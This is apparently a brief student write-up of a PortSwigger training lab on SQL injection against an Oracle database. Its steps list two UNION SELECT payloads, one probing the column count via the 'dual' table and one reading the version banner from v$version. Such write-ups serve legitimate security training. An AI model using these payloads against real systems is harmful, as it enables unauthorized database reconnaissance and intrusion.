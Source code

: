 # SQL Injection - Quering the database type and version on Oracle

## 📌 Lab Details
- **Title**: SQL Injection - Quering Database
- **Difficulty**: Medium
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/974bd9df06352f8b59c679f854a5bc7e3db6c7fb83f72db653509252a6d47e28?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-querying-database-version-oracle

## 🔍 Summary
This lab demonstrated how an Sql Injecection attack can be used to retrieve the number of columns in a database.

## 🛠 Steps to Solve
1. Use Burp Suite to intercept and modify the request.
2. Injected '+UNION+SELECT+'abc','def'+FROM+dual-- into the search field
3. Following payload '+UNION+SELECT+BANNER,+NULL+FROM+v$version-- for the database version

## 📖 Key Takeaways
- Understanding how a built in table like 'dual' can allow for an SQL Injection attack.
- Retrieving the number of columns of the database can allow for a UNION or an ORDER BY attack.


